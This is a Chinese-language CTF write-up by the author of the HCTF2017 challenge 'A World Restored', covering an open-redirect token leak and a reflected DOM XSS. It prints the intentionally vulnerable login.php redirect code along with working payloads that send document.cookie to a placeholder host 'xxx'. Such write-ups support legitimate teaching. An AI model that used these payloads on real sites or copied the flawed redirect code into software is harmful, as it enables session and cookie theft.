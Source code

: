 ```yaml
---
title: HCTF2017-A World Restored-Writeup
date: 2017-11-15 17:30:45
tags:
- xss
---
```



```
A World Restored
Description:
nothing here or all the here ps:flag in admin cookie 
flag is login as admin
URL http://messbox.2017.hctf.io
Now Score 674.44
Team solved 7
```

```
A World Restored Again
Description: 
New Challenge !! 
hint: flag only from admin bot
URL http://messbox.2017.hctf.io
Now Score 702.6
Team solved 6
```
题目源码如下：
[https://github.com/LoRexxar/HCTF2017-A-World-Restored](https://github.com/LoRexxar/HCTF2017-A-World-Restored)

<!--more-->

A World Restored在出题思路本身是来自于uber在10月14号公开的一个漏洞[https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html](https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html)，为了能尽可能的模拟真实环境，我这个不专业的Web开发只能强行上手实现站库分离。

其中的一部分非预期，也都是因为站库分离实现的不好而导致的。（更开放的题目环境，导致了很多可能，或许这没什么不好的？

整个站的结构是这样的：
1、auth站负责用户数据的处理，包括登陆验证、注册等，是数据库所在站。
2、messbox站负责用户的各种操作，但不连接数据库。

这里auth站与messbox站属于两个完全不同的域，受到**同源策略**的影响，我们就需要有办法来沟通两个站。

而这里，我选择使用token做用户登陆的校验+jsonp来获取用户数据。站点结构如下:

![image.png-37.7kB][1]

简单来说就是，messbox登陆账号完全受到token校验，即使你在完全不知道账号密码的情况下，获取该token就可以登陆账号。

那么怎么获取token登陆admin账号就是第一题。

而第二题，漏洞点就是上面文章中写的那样，反射性的domxss，可以得到服务端的flag。

为了两个flag互不干扰，我对服务端做了一定的处理，服务端负责处理flag的代码如下：
```
$flag1 = "hctf{xs5_iz_re4lly_complex34e29f}";
$flag2 = "hctf{mayb3_m0re_way_iz_best_for_ctf}";

if(!empty($_SESSION['user'])){
	if($_SESSION['user'] === 'hctf_admin_LoRexxar2e23322'){
                setcookie("flag", $flag, time()+3600*48," ","messbox.2017.hctf.io", 0, true);
        }

	if($_SESSION['user'] === 'hctf_admin_LoRexxar2e23322' && $_GET['check']=="233e"){
		setcookie("flag2", $flag2, time()+3600*48," ",".2017.hctf.io");
	}
}
```

可以很明显的看出来，flag1是httponly并在messbox域下，只能登陆才能查看。flag2我设置了check位，只有bot才会访问这个页面，这样只有通过反射性xss，才能得到flag。

下面我们回到题目。

# A World Restored #

```
A World Restored
Description:
nothing here or all the here ps:flag in admin cookie 
flag is login as admin
URL http://messbox.2017.hctf.io
Now Score 674.44
Team solved 7
```

这道题目在比赛结束时，只有7只队伍最终完成了，非常出乎我的意料，因为漏洞本身非常有意思。（这个漏洞是ROIS发现的）

为了能够实现token，我设定了token不可逆的二重验证策略，但是在题目中我加入了一个特殊的接口，让我们回顾一下。

auth域中的login.php，我加入了这样一段代码

```
if(!empty($_GET['n_url'])){
		$n_url = trim($_GET['n_url']);
		echo "<script nonce='{$random}'>window.location.href='".$n_url."?token=".$usertoken."'</script>";
		exit;
	}else{
		// header("location: http://messbox.hctf.com?token=".$usertoken);
		echo "<script nonce='{$random}'>window.location.href='http://messbox.2017.hctf.io?token=".$usertoken."'</script>";
		exit;
	}
```

这段代码也是两个漏洞的核心漏洞点，假设你在未登录状态下访问messbox域下的user.php或者report.php这两个页面，那么因为未登录，页面会跳转到auth域并携带n_url，如果获取到登陆状态，这里就会拼接token传回messbox域，并赋予登陆状态。

简单的流程如下：
```
未登录->获取当前URL->跳转至auth->获取登陆状态->携带token跳转到刚才获取的URL->messbox登陆成功
```

当然，这其中是有漏洞的。

服务端bot必然登陆了admin账号，如果我们直接请求login.php并制定下一步跳转的URL，那么我们就可以获取拼接上的token！

```
poc

http://auth.2017.hctf.io/login.php?n_url=http://{you_website}
```

得到token我们就可以登陆messbox域，成功登陆admin


# A World Restored Again #

```
A World Restored Again
Description: 
New Challenge !! 
hint: flag only from admin bot
URL http://messbox.2017.hctf.io
Now Score 702.6
Team solved 6
```

到了第二部，自然就是xss了，其实题目本身非常简单，在出题之初，为了避免题目出现“垃圾时间”（因为非预期导致题目不可解），我在题目中加入了跟多元素。

并把flag2放置在`.2017.hctf.io`域下，避免有人找到messbox的xss但是打不到flag的问题。（没想到真的用上了）

这里我就简单描述下预期解法和非预期解法两个。

## 预期解法 ##

预期解法当然来自于出题思路。

[https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html](https://stamone-bug-bounty.blogspot.jp/2017/10/dom-xss-auth_14.html)

漏洞本身非常简单，但有意思的是利用思路。

**当你发现了一个任意URL跳转的漏洞，会不会考虑漏洞是怎么发生的？**

也许你平时可能没注意过，但跳转一般是分两种的，第一种是服务端做的，利用`header: location`,这种跳转我们没办法阻止。第二种是js使用`location.href`导致的跳转。

既然是js实现的，那么是不是有可能存在dom xss漏洞呢？

这个uber的漏洞由来就是如此。

这里唯一的考点就是，js是一种顺序执行的语言，如果location报错，那么就不会继续执行后面的js，如果location不报错，那么就可能在执行下一句之前跳转走。

当然，办法很多。最普通的可能是在location后使用`stop()`来阻止跳转，但最好用的就是新建script块，这样上一个script报错不会影响到下一个script块。

最终payload
```
</script><script src="http://auth.hctf.com/getmessage.php?callback=window.location.href='http://xxx?cookie='+document.cookie;//"></script

exp

http://auth.2017.hctf.io/login.php?n_url=%3E%3C%2fscript%3E%3Cscript%20src%3D%22http%3A%2f%2fauth.2017.hctf.io%2fgetmessage.php%3Fcallback%3Dwindow.location.href%3D%27http%3A%2f%2fxxx%3Fcookie%3D%27%252bdocument.cookie%3B%2f%2f%22%3E%3C%2fscript%3E
```

## 非预期解法 ##

除了上面的漏洞以外，messbox也有漏洞，username在首页没有经过任何过滤就显示在了页面内。

但username这里漏洞会有一些问题，因为本身预期的漏洞点并不是这里，所以这里的username经过我框架本身的一点儿过滤，而且长度有限制，所以从这里利用的人会遇到很多非预期的问题。

payload如下，注册名为
```
<script src=//auth.2017.hctf.io/getmessage.php?callback=location=%27http://xxx/%27%2bbtoa(document.cookie);//></script>
```
的用户名，并获取token。

传递
```
http://messbox.2017.hctf.io/?token=NDYyMGZlMTNhNWM3YTAxY3xQSE5qY21sd2RDQnpjb
U05THk5aGRYUm9Makl3TVRjdWFHTjBaaTVwYnk5blpYUnRaWE56WVdkbExuQm9jRDlqWVd4c1ltR
mphejFzYjJOaGRHbHZiajBsTWpkb2RIUndPaTh2Y205dmRHc3VjSGN2SlRJM0pUSmlZblJ2WVNoa
2IyTjFiV1Z1ZEM1amIyOXJhV1VwT3k4dlBqd3ZjMk55YVhCMFBnPT0=
```
即可


  [1]: http://static.zybuluo.com/LoRexxar/bp6f3b81h84qt19qc00ws80q/image.png